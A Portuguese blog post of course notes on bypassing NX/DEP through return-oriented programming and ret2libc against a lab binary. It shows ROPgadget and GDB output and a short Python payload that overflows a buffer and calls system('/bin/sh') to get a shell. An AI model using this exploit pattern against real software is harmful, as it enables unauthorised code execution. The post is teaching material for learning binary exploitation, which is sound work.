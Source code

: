 ```yaml
---
layout: post
title: bypass NX/DEP do CEB(mentebinaria)
date: 2024-01-10
description: binary exploitation
categories: bin-exp
---
```


### Bypass NX/DEP

### Esse texto reúne o que aprendi sobre bypass de NX juntando as video aulas do curso CEB(https://www.youtube.com/playlist?list=PLIfZMtpPYFP4MaQhy_iR8uM0mJEs7P7s3) de exploração de binarios. Aula do 07 a 14.

Primeiro vamos a uma breve introdução sobre o NX ou também conhecido como DEP(Data Execution Prevention):

O NX/DEP é uma técnica de mitigação de exploração usada para garantir que apenas segmentos de código são sempre marcados como executáveis...

Ok, mas como assim somente segmentos de código marcados como executáveis??

Bom, vamos lá. Nos writeups anteriores vimos que para explorar os binários, usamos a técnica de Buffer-overflow para sobrescrever um endereço de retorno e, logo depois dessa sobrescrita, jogamos algum shellcode na stack, para assim ganharmos controle sobre o fluxo de execução do binário. Essa exploração só é possível porque o binário em questão foi compilado com a flag ``` -z execstack ``` que desabilita a proteção NX.

Agora com a proteção ativada, as areas da stack e heap NÃO possuem permissão de execução. Sendo assim, não será possível realizar a exploração jogando algum shellcode na stack, porque simplesmente não será executado (e provavelmente resultara em um SEGFAULT).

Sabendo disso, vamos para a parte do bypass...

### Bypass

* "If you can’t inject (shell)code to do your bidding, you
must re-use the existing code!" RPISEC - MBE lecture_07

Se você não pode injetar código... reutilize o código existente.


O bypass mais conhecido para o NX é o ROP ```(Return Oriented Programming)```. ROP é uma técnica para reutilizar código/instruções existentes em um binário para montar algo malicioso. Outros termos conhecidos são ``` ROPgadgets/Gadgets ``` e ``` ROPchain ```.

Os ``` ROPgadgets ``` ou só ``` Gadgets ``` basicamente são instruções presentes na memória do binário, que não fazem parte da execução da ```main```, mas podem ser utilizadas porque são parte da execução do binário (e geralemente terminam com uma instrução ```RET```). Esses gadgets podem ser usados para montar instruções maliciosas semelhante a um shellcode. A junção desses gadgets é chamada de ``` ROPchain ```.


### Tudo bem, ja sabemos o que é o NX e qual tecnica é usada para "bypassa-lo". Agora vamos para a demonstração:

A ideia é a seguinte: já que não podemos executar um shellcode através da stack, temos que executar algo parecido, então vamos usar a técnica ```ret2libc```. Essa técnica consiste em fazer o binário chamar funções da libc usando os endereços de memória carregados pelo próprio binário em tempo de execução. 

Para o exemplo chamaremos a função ```system()```, e como a função system() sem argumentos não faz nada, vamos passar pra ela a string ```"/bin/sh"``` . Dessa forma temos algo parecido com um shellcode.

### Step by step da exploração

#### 1 - O binário usado de exemplo nas aulas era vulneravel a um B.O.F, então a primeira coisa a fazer é estourar o buffer e controlar algum endereço de retorno.


#### 2 - Depois de explorar o B.O.F precisamos saber qual ```Gadget``` pode ser usado de forma maliciosa. Para isso vamos usar a tool ROPgadget (https://github.com/JonathanSalwan/ROPgadget) .

Vamos procurar ```gadgets``` filtrando por ```"pop rdi"```. Porque os registradores ```RDI``` e ```RSI``` são usados para passagem de argumentos na arquitetura de 64 bits. Para que o argumento "/bin/sh" seja passado para a função system ele precisa estar em algum desses registradores.

Rodando a tool e analisando a saida, vemos a instrução que precisamos:

```sh
$ ROPgadget --binary aula_13 --ropchain | grep "pop"

...

0x00000000004011ab : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004011af : pop rbp ; pop r14 ; pop r15 ; ret
0x0000000000401109 : pop rbp ; ret
0x00000000004011b3 : pop rdi ; ret 	<====== essa aqui
0x00000000004011b1 : pop rsi ; pop r15 ; ret
0x00000000004011ad : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
```

Deixe o endereço separado e vamos para o próximo passo.


#### 3 - Agora precisamos achar o endereço da string ```"/bin/sh"``` na memória a qual o binário tem acesso em tempo de execução. 

Para isso vamos rodar o binário no GDB, setar um breakpoint qualquer e logo depois da execução parar no breakpoint, vamos buscar pela string "/bin/sh" da seguinte forma: ``` gdb-peda$ find "/bin/sh" ```

```sh
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0x7ffff7f745bd --> 0x68732f6e69622f ('/bin/sh')
```

Deixe esse endereço separado também e vamos para o próximo passo.



#### 4 - A ultima das nossas buscas será pelo endereço da função ```system()```. Fazendo da mesma forma que o endereço de "/bin/sh".

Rode o binário no GDB, sete um breakpoint qualquer e logo depois da execução parar no breakpoint, busque pelo endereço da seguinte forma: ``` gdb-peda$ p system ```


```sh
gdb-peda$ p system
$1 = {int (const char *)} 0x7ffff7e12290 <__libc_system>
```


#### 5 - Depois de ter os endereços necessários vamos montar o script do exploit:


```py
import struct

buf = b""
buf += b"A"*88                              #JUNK
buf += struct.pack("<Q", 0x4011b3)      #POP RDI; RET;
buf += struct.pack("<Q", 0x7ffff7f745bd)    #POINTER TO "/bin/sh"
buf += struct.pack("<Q", 0x7ffff7e12290)    #SYSTEM ADDR

f = open("exp", "wb")
f.write(buf)
```


#### 6 - Agora com tudo pronto vamos executar o exploit e ver como tudo funciona:


* RET sobrescrito com o Gadget

<div class="col-sm mt-3 mt-md-0">
    {% include figure.liquid loading="eager" path="assets/img/bpnx1.png" class="img-fluid rounded z-depth-1" zoomable=true %}
</div>


* O "/bin/sh" seguido pela função system na stack

<div class="col-sm mt-3 mt-md-0">
    {% include figure.liquid loading="eager" path="assets/img/bpnx2.png" class="img-fluid rounded z-depth-1" zoomable=true %}
</div>


* "/bin/sh" passado para o registrador RDI

<div class="col-sm mt-3 mt-md-0">
    {% include figure.liquid loading="eager" path="assets/img/bpnx3.png" class="img-fluid rounded z-depth-1" zoomable=true %}
</div>


* entrando na função system 

<div class="col-sm mt-3 mt-md-0">
    {% include figure.liquid loading="eager" path="assets/img/bpnx4.png" class="img-fluid rounded z-depth-1" zoomable=true %}
</div>


* GDB termina execução e sai startando um novo processo

<div class="col-sm mt-3 mt-md-0">
    {% include figure.liquid loading="eager" path="assets/img/bpnx5.png" class="img-fluid rounded z-depth-1" zoomable=true %}
</div>


* rodando a exploração fora do GDB

<div class="col-sm mt-3 mt-md-0">
    {% include figure.liquid loading="eager" path="assets/img/bpnx6.png" class="img-fluid rounded z-depth-1" zoomable=true %}
</div>

